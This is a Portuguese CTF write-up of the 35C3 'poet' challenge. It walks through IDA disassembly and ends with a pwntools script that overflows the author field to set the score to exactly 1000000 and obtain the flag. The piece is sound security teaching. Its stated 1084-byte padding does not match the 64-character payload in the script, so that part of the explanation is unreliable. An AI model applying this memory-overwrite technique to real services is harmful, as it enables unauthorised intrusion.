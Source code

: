 ```yaml
---
layout: post
title:  "poet"
date:   2018-12-31 09:53:51 -0200
categories: [CTF,PWN,35C3 CTF]
author: lynfs
event: 35C3 CTF
tags: [CTF,PWN,35C3 CTF]
description: "We are looking for the  poe  of the year..."
image: "/assets/images/writeups/XookLxm.png"
---
```

## [35C3CTF](https://ctftime.org/event/718)

### Nome: [Poet](/download/poet-724c1a07d5cf958381856c332e9019d57b5d51bf.zip)

#### Dificuldade: Muito fácil

**Descrição**: 
*We are looking for the  poe  of the year:* `nc 35.207.132.47 22223`

## Levantamento de informações

Ao baixarmos e extrairmos o arquivo zip, obtemos o arquivo Poet:
                                                                                                                                                                          
    C:\Users\ecarlosn\Desktop\poetwu                                                                                                                                        
    > File poet                                                                                                                                                             
    poet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=145cad36473cb
    96072142f67bbde20e991c5a4b7, not stripped                                                                                                                               
    
Antes de qualquer ação, vejamos o que o executável faz.


    **********************************************************
    * We are searching for the poet of the year 2018.        *
    * Submit your one line poem now to win an amazing prize! *
    **********************************************************
    Enter the poem here:
    > happy new year
    Who is the author of this poem?
    > deadlock
    
    +---------------------------------------------------------------------------+
    THE POEM
    happy new year
    SCORED 0 POINTS.
    
    SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!
    +---------------------------------------------------------------------------+

**"SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!"**
    *A mensagem exibida diz que precisamos pontuar exatamente **1000000**. Hora de analisar o executável.*

## Solução
 Para a análise em questão, foi utilizado o [IDA](https://www.hex-rays.com/products/ida/support/download_freeware.shtml).

![IDA screenshot](/assets/images/writeups/XookLxm.png)

*No endereço **00000000004009D3** é possível vizualizar uma chamada à função **rate_poem( )**. Vejamos o que ela faz.*

    .text:000000000040080C loc_40080C:                             ; CODE XREF: rate_poem+8B↓j
    .text:000000000040080C                                         ; rate_poem+A2↓j ...
    .text:000000000040080C                 add     cs:dword_6024E0, 64h
    .text:0000000000400813
    .text:0000000000400813 loc_400813:                             ; CODE XREF: rate_poem+147↓j
    .text:0000000000400813                 lea     rsi, delim      ; " \n"
    .text:000000000040081A                 mov     edi, 0          ; s
    .text:000000000040081F                 call    _strtok
    .text:0000000000400824                 test    rax, rax
    .text:0000000000400827                 jz      loc_400909
    .text:000000000040082D
    .text:000000000040082D loc_40082D:                             ; CODE XREF: rate_poem+53↑j
    .text:000000000040082D                 mov     ecx, 5
    .text:0000000000400832                 mov     rsi, rax
    .text:0000000000400835                 mov     rdi, rbx
    .text:0000000000400838                 repe cmpsb
    .text:000000000040083A                 setnbe  dl
    .text:000000000040083D                 sbb     dl, 0
    .text:0000000000400840                 test    dl, dl
    .text:0000000000400842                 jz      short loc_40080C
    .text:0000000000400844                 mov     ecx, 4
    ...
    ...
    ...
    .text:0000000000400889                 mov     ecx, 7
    .text:000000000040088E                 lea     rdi, aRepeat    ; "repeat"
    ...
    ...
    .text:00000000004008A0                 test    dl, dl
    .text:00000000004008A2                 jz      loc_40080C
    .text:00000000004008A8                 mov     ecx, 4
    .text:00000000004008AD                 lea     rdi, aCtf       ; "CTF"
    .text:00000000004008B4                 mov     rsi, rax
    .text:00000000004008B7                 repe cmpsb
    .text:00000000004008B9                 setnbe  dl
    .text:00000000004008BC                 sbb     dl, 0
    .text:00000000004008BF                 test    dl, dl
    .text:00000000004008C1                 jz      loc_40080C
    .text:00000000004008C7                 mov     ecx, 8
    .text:00000000004008CC                 lea     rdi, aCapture   ; "capture"
    .text:00000000004008D3                 mov     rsi, rax
    ...
    ...
    .text:00000000004008DE                 test    dl, dl
    .text:00000000004008E0                 jz      loc_40080C
    .text:00000000004008E6                 mov     ecx, 5
    .text:00000000004008EB                 lea     rdi, aFlag      ; "flag"
    ...
    ...
    .text:00000000004008FC                 test    al, al
    .text:00000000004008FE                 jnz     loc_400813
    .text:0000000000400904                 jmp     loc_40080C
    .text:0000000000400909 ; ---------------------------------------------------------------------------

*A função nos retorna uma série de comparações com palavras específicas (**flag, pwn, CTF, capture**...).
Apesar das palavras da função nos retornarem pontos acima de Zero:*


    Enter the poem here:
    > flag
    Who is the author of this poem?
    > pwn
    +--------------------------------------------
    THE POEM
    flag
    SCORED 100 POINTS.
    
    SORRY, THIS POEM IS JUST NOT GOOD ENOUGH.
    YOU MUST SCORE EXACTLY 1000000 POINTS.
    TRY AGAIN!

*Após algumas análises, percebe-se que são irrelevantes para nossa resolução.*
*Voltando à função main, pode-se ver uma outra comparação no endereço **00000000004009D8**:*
![IDA screenshot](/assets/images/writeups/N7L3rSF.png)

*A comparação feita acima verifica se [rbx+440h] é igual à f4240h. Caso essa condição seja verdadeira,  você recebe o resultado da chamada( **flag** ), caso contrário, recebemos a mensagem de erro "**\nSORRY, THIS POEM....*** .

*o **H** no final da sequência de letras e números nos indica que os valores estão em [Hexadecimal](https://pt.wikipedia.org/wiki/Sistema_de_numera%C3%A7%C3%A3o_hexadecimal). Usando qualquer método de conversão para base10(**Decimal**), descobrimos que:*

 - 0x440h = 1088 **base10**
 - 0x_f4240h = 1000000 **base10**

 *Ótimo, encontramos a comparação que é feita para validação do poema/autor. Então, precisamos fazer com que  o registrador **rbx + 1088 = 0xf4240**.*
 *Após uma depuração, pode-se perceber que o responsável pelo nosso input está em **[rbx+1088]** Desta forma, podemos montar nosso script.*
 No caso em questão, foi utilizada a lib [pwntools](http://docs.pwntools.com/en/stable/) no [python2.7](https://www.python.org/download/releases/2.7/).

*Sabendo que **rbx** precisa receber **1088** bytes e que o **cmp** trabalha com os últimos**4 bytes**, enviamos **1084** bytes aleatórios + valor à ser comparado nos últimos .*
   
```python
from pwn import *
    
r = remote('35.207.132.47', '22223')   
print r.recvuntil('Enter the poem here:\n')
r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\x40\x42\x0f\x00')
print r.recvuntil('this poem?\n')
r.sendline('aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa\x40\x42\x0f\x00')
print r.recvline()
print r.recvline()
print r.recvuntil('POINTS')
print r.recv(1024)
```

* No script, enviamos o valor em **Hexadecimal** nos últimos 4 bytes que formam 1088, assim, quando a comparação for feita, teremos que **0x_f4240h == 0x_f4240h** *

 - *As letras aleatórias no script podem ser substituídas por exemplo, por* "A" **1084. Feito desta maneira apenas por questões de entendimento geral.*

*após a execução:*

![enter image description here](/assets/images/writeups/AEo9lHY.png)
-

**FLAG: 35C3_f08b903f48608a14cbfbf73c08d7bdd731a87d39**

---

## Recomendações para entendimento geral
[x64_cheatsheet.pdf](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)

[Assembly Control Flow](https://en.wikibooks.org/wiki/X86_Assembly/Control_Flow)

[CMPx86](https://www.felixcloutier.com/x86/cmp)